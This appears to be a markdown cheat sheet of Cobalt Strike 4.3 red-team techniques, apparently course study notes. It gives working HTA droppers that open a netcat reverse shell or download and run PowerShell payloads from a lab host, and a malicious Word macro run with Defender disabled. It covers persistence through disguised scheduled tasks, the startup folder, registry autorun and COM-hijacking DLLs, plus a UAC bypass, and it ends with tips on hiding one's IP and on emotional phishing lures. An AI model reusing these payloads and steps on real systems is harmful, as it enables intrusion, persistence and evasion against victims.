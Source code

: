 ### How to start cobalt strike 4.3 ?
1. First start team server `./teamserver <KALI IP> <some password> <some C2 malleable profile>`
2. First start team server `./teamserver 192.168.10.200 password123 havex.profile`
3. Then `./start.sh`

### Useful commands for CS 4.3?
1. Change beacon time `sleep <digit number>`
2. E.g Change beacon time to 02 seconds `sleep 2`
3. Run commands via cmd.exe `shell <some command>`
4. E.g `shell dir` or `shell whoami`

### .hta file execution (requres Internet Explorer) 01 - Simple Hello World
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>
</html>
```
### .hta file execution (requres Internet Explorer) 02 - Get reverse shell "console" is hidden
```
<html>
  <head>
    <title>Reverse Shell</title>
  </head>
  <body>
    <h2>get reverse shell on 192.168.10.200 at port 00</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      Shell.Run "cmd /c C:\Users\jon\Desktop\crtoStuff\nc.exe -e cmd.exe 192.168.10.200 200", 0, True
    End Function

    Pwn
  </script>
</html>
```
### .hta file execution (requres Internet Explorer) 03 - Get poweshell reverse shell
1. In CS navigate to **Attacks > Web Drive-by > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for HTTP listener**. The URI path can be anything for e.g I had it **/tempOld**. 
2. By default if we use **powershell.exe** instead of giving the full path its not going to laucnh. This is because we have a **64bit** powershell payload but **.hta** uses **32 bit mstha.exe**. However, we can fix it by specifiying the fullpath with **sysnative**
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.exec "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
      ' This will fail -> shell.exec "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
    End Function

    Pwn
  </script>
</html>
```
### .hta file execution (requres Internet Explorer) 04 - Get poweshell reverse shell after checking the desired architecture
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>
  
  <script language="VBScript">
    Function Pwn()
  Set shell = CreateObject("wscript.Shell")
  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  Else
    shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  End If
    End Function
    Pwn
  </script>
</html>

```

### .macro for MS Word
1. Generate a macro for MS WORD **Attacks -> Packages -> MS Office Macro**
2. Copy & Paste the macro in the MS Word document (remeber to use **.doc** not the **.docx**
3. Disable Defender and Run it, you'll get the beacon 

### Persistence for MS Windows via SharPersist - Mehtod schtask
1. First generate the **x64 powershell** payload by **Attacks -> Web by Delivery -> Scripted Web Del (S)**
2. The above will generate a **PS payload, hosted on the CS TeamServer and will be run in memory**
3. E.g. it will be something like
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/64bit'))"
```
3. To avoid issues, Base64 it as following:
```
Linux : echo -en 'IEX ((new-object net.webclient).downloadstring("http://192.168.10.200:80/64bit"))' | iconv -t UTF-16LE | base64 -w 0
PS : [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('IEX ((new-object net.webclient).downloadstring("http://192.168.10.200:80/64bit"))'))
```
4. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -n "AV-Definition-Update" -m add -o hourly`
5. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -n "SysMonLog" -m add -o logon`

### Persistence for MS Windows via SharPersist - Mehtod startup folder
1. `execute-assembly SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -f "UserEnvSetup" -m add`
2. If above command goes well, it create a file **UserEnvSetup** inside the path **C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup**

### Persistence for MS Windows via SharPersist - Mehtod registry autorun
1. Generate a revershell exe from CS e.g **artifactx64.exe**. 
2. Place this **artifactx64.exe** in that **C:\tools\malPayloads\artifactx64.exe** in Windows 10 OS. 
3. `execute-assembly SharPersist.exe -t reg -c "C:\tools\malPayloads\artifactx64.exe" -a "/q /n" -k "hkcurun" -v "someNameYouWant" -m add`

### Persistence for MS Windows via SharPersist - COM Hijacking DLL
1. Open **procmon64.exe** from **sysinternals suite**. 
2. Apply filters **Operations ---> RegKeyOpen** and **Result ---> NAME NOT FOUND** and **PATH (ends with) ---> InprocServer32**. 
3. Next open some program, e.g. **MS Word or maybe Edge** etc. 
4. Get some random **CLSID**. 
5. Use **Powershell** that the entry does exist in **HKLM**, but not in **HKCU**.
6. Will show ---> `Get-Item -Path "HKLM:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InprocServer32"`
7. But will fail --> `Get-Item -Path "HKCU:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InprocServer32"`
8. Create this CLSID `New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}"`
9. Specify that malicious dll `New-Item -Path "HKCU:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}" -Name "InprocServer32" -Value "C:\tools\malPayloads\comhijacking.dll"`
10. Next command `New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InprocServer32" -Name "ThreadingModel" -Value "Both"`
11. now when **MS Edge (internet explorer)** is loaded, you should get a **beacon**. 

### Windows Privilege Escalation - UAC Bypass
1. First run the SharpUp.exe via command `execute-assembly /opt/CRTO/SharpUp.exe audit`
2. If you see some error like **In medium integrity but user is a local administrator - UAC can be bypassed.** Then this attack **may** be successful. 
3. Also you can verify it by typing commands ``shell whoami /groups`` and ``shell whoami /priv``. You must be in **admin** group e.g. **BUILTIN\Administrators**
4. Two methods are provided by **CS** for this **UAC Bypass** i.e. **elevate** and **runasadmin**
5. in cobalt strike type: `elevate uac-token-duplication <your listner name>` e.g. ``elevate uac-token-duplication my1st64bit``

### Some good points
1. While doing active reconnisane, use VPN to hide the real Public IP address. 
2. Emotional characteristics that usually result in higher user engagment are **fear, urgency, greed and curiosity**.
